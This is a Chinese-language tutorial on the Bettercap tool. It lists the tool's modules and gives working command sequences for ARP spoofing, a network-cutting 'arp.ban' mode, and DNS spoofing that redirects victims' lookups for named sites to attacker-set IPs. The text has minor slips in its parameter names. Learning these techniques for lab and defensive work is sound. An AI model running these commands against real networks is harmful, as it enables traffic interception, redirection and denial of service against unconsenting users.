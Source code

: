 # Bettercap

https://blog.csdn.net/qq_36119192/article/details/84582109#DNS%C2%A0%E6%AC%BA%E9%AA%97

## 一些常用模块

```
api.rest：RESTful API模块
```
```
net.recon ：主机发现模块，用于发现局域网内存活的主机，默认是开启的
```
```
arp.spoof：arp欺骗模块
```
```
ble.recon：低功耗蓝牙设备发现模块
```
```
net.sniff : 网络嗅探模块
```
```
dhcp6.spoof：dhcp6欺骗模块(通过伪造DHCP数据包篡改客户端的DNS服务器，因此需要与dns.spoof一并启用)
```
```
dns.spoof：DNS欺骗模块
```
```
events.stream：串流输出模块（就是不断地在终端界面刷出程序的输出，例如arp截获的信息）
```
```
wifi：wifi模块，有deauth攻击（wifi杀手）和创建软ap的功能
```
![](img/2.png)

## ARP欺骗

我们现在用 `bettercap `来进行ARP欺骗，
先看看arp.spoof这个模块怎么用。输入：
```
help  arp.spoof
```
![](img/1.png)
```
arp.spoof  on : 开启ARP欺骗

arp.ban  on ： 开启ARP欺骗，用ban模式，这就意味着目标将不能上网，也就是断网攻击

arp.spoof off ：停止ARP欺骗

arp.ban off :  停止ARP欺骗
```

## 参数：

```
arp.spoof.internal：如果为true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络(默认为false)
```
```
arp.spoof.targets：要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持nmap形式的ip区域
```
```
arp.spoof.whitelist：白名单，就是不欺骗的目标，可以是ip、mac或者别名
```
## set来进行攻击目标的设置
```
set arp.spoof.targets  192.168.10.2,192.168.10.14   #我们设置攻击目标，用逗号分隔。分别欺骗网关(192.168.10.2)和要欺骗的主机(192.168.10.14是我另外一台主机)，这里也可以是一个网段，如：192.168.10-20
```
## GET获取arp的值来进行信息收集
```
get arp.spoof.targets    #获取arp.spoof.targets的值
```
## DNS 欺骗

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

DNS欺骗之前，我们先得进行`ARP欺骗`，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.10.2,192.168.10.14
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 3.3.3.3   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是3.3.3.3
```

## 还有一种方法

我们可以在打开bettercap的目录创建一个文件host，文件中存放这要欺骗的域名和地址，如下

```
1.1.1.1 www.baidu.com
2.2.2.2 www.taobao.com
3.3.3.3 www.mi.com
```
然后我们进行DNS欺骗的时候只需要设置arp.spoof.hosts这个参数即可

## 之前我们得先进行arp欺骗

```
set dns.spoof.hosts host  #设置dns.spoof.hosts里面存放这要欺骗的域名和欺骗后的地址，在bettercap打开的目录下
dns.spoof on  #开启dns欺骗
```


























